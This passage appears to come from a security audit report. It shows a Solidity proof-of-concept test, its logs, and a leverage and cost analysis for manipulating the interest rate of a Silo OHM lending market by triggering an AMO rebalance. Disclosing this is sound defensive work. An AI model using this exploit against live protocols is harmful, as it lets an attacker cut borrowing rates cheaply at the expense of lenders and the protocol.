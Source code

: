 ```solidity
        // now we force update()
        _update();
        console.log("Rate After Update: ", model.getCurrentInterestRate(address(silo), address(ohm), block.timestamp));

        // we immediately repay our borrow to minimize interest costs
        silo.repay(address(ohm), borrowAmt);
        vm.warp(block.timestamp + 12);
        console.log("Rate After Repayment: ", model.getCurrentInterestRate(address(silo), address(ohm), block.timestamp));

        // this reduced rate is now locked in for 1 day
    }

    function _update() internal {
        uint256 totalDeposits = silo.assetStorage(address(ohm)).totalDeposits;
        uint256 totalBorrowed = silo.utilizationData(address(ohm)).totalBorrowAmount;
        int256 optimalUtilizationPct = 0.5e18; // hardcoded what it is on the contract
        uint targetDeploymentAmount = totalBorrowed.mulDiv(1e18, uint256(optimalUtilizationPct));
        vm.prank(amo);
        if (totalDeposits < targetDeploymentAmount) {
            silo.deposit(address(ohm), targetDeploymentAmount - totalDeposits, false);
        } else if (totalDeposits > targetDeploymentAmount) {
            silo.withdraw(address(ohm), totalDeposits - targetDeploymentAmount, false);
        }
    }
}
```
```
Logs:
  Starting Rate:  70000385185008000 // 7% per year
  Rate After OHM Borrow:  1139999999984496000 // 114% per year
  Rate After Update:  140027777674272000 // 14% per year
  Rate After Repayment:  34097713619616000 // 3.4% per year
```
While the POC is written to assume that the attacker holds approximately $500k of WETH in the Silo, the attack is possible with a much smaller balance because of the ability for the attacker to take a leveraged position. They can do this by depositing WETH, borrowing OHM, trading the OHM for WETH which can be deposited, borrowing more OHM, etc. The amount of leverage that can be taken depends on the maximum LTV value, as follows:
```
0.9 LTV = 9x
0.85 LTV = 5.66x
0.8 LTV = 4x
0.75 LTV = 3x
0.7 LTV = 2.33x
0.6 LTV = 1.5x
```
This would allow an attacker to perform this attack with substantially less capital than might otherwise be expected.

Further, despite the capital requirements, the attack itself poses no additional risk to their funds. We can estimate the interest paid for the one block of the attack as:
```
45,000 OHM = $480,000 USD
$480,000 USD * 114% annual rate = $547,200 USD per year of interest
$547,200 USD / 365 days / 7200 blocks per day = $0.21
```
